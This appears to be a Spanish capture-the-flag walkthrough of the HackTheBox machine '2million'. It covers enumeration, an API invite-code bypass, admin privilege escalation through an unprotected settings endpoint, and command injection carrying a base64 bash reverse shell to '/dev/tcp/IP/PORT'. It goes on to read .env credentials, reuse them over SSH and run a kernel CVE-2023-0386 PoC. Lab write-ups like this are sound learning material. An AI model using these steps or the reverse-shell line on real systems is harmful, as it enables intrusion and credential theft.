

2million
Primero realizo un scaneo de la red
nmap 10.10.11.221 -Pn -sC -sV -O -oN scan_full.txt
Meto el nombre de dominio en /etc/hosts
Hago una enumeración de directorios con dirb
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb -b 301
Encuentro dos directorios interesantes que son /invite y /login
Dentro de /invite veo el código y encuentro una llamada a una script inviteapi.min.js
Accedo a ella y veo que está obfuscada por lo que la desofusco con https://lelinhtinh.github.io/de4js/
Me aparecen 2 funciones muy interesantes que son /api/v1/invite/verify y /api/v1/invite/how/to/generate
Realizo un POST con Burpsuite para ver que me devuelve
Me dice que está encriptada en ROT13
Lo desencripto y me dice “In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate”
Realizo el POST y me devuelve un código “NlJXOEktMlhOTlAtUFpOSkwtVFlaR04=”

Este código está encoded en base 64
Lo descodifico con
echo "NlJXOEktMlhOTlAtUFpOSkwtVFlaR04=">code.txt | base64 -d
Puedo crear un usuario con ese codigo de invitación (Parece ser que solo puede haber usuarios con invitación)

Me redirige al Login por lo que entro y me manda al dashboard /home
/acces es muy importante porque puedo descargar las vpns que uso
Le doy a descargar Connection Pack y lo intercepto con Burpsuite
Encuentro que es un archivo OpenVPN
Al ser un GET puedo solicitar la version, nos dice que es v1
Realizo un GET a /api/v1 y encuentro un metodo de auntentificación de admin
Realizo un get a /api/v1/admin/auth para ver si soy admin
Puedo enviar otros métodos como POST o PUT
Con PUT a la url /api/v1/admin/settings/update me devuelve 200
Da este error porque CONTENT-TYPE tiene que estar en json
Nos pide el parámetro email

Ahora me pide el parámetro is_admin que probablemente sea un tipo de dato Boolean

Meto el parámetro "is_admin=true" y me dice que tiene que ser 0 o 1
Y me devuelve
Checkeo si soy admin con el método /auth y me devuelve el “message : true”
Ahora accedo a /vpn/generate para ver que puedo hacer
Se me genera la vpn
Para generar esta vpn se usan funciones PHP, por lo que intento hacer un command injection después del username para que no me ponga que faltan parámetros
Veo que si que puedo ejecutar comandos por lo que generaré un reverse shell encodeado en base64 bash -i >& /dev/tcp/IP/PORT 0>&1
Lo codifico a base64 y lo introduzco en el command injection


Encuentro el usuario admin que tiene la flag user.txt tengo que hacer movimiento lateral a ese usuario

Encuentro el archivo .env oculto
ls -al
cat .env
Me da las credenciales del usuario admin de la db

En el escaneo vi que tenía un servicio SSH activo por lo que entro con el usuario admin y la contraseña que encontré antes
Encuentro la flag user.txt
Después de buscar un rato encuentro un archivo en mail que dice que hay CVE en el kernel.
Busco la versión del kernel con “uname -a”

Encuentro que puedo usar el CVE-2023-0386
Lo clono en mi máquina atacante
Se lo paso a mi máquina objetivo y sigo los pasos del POC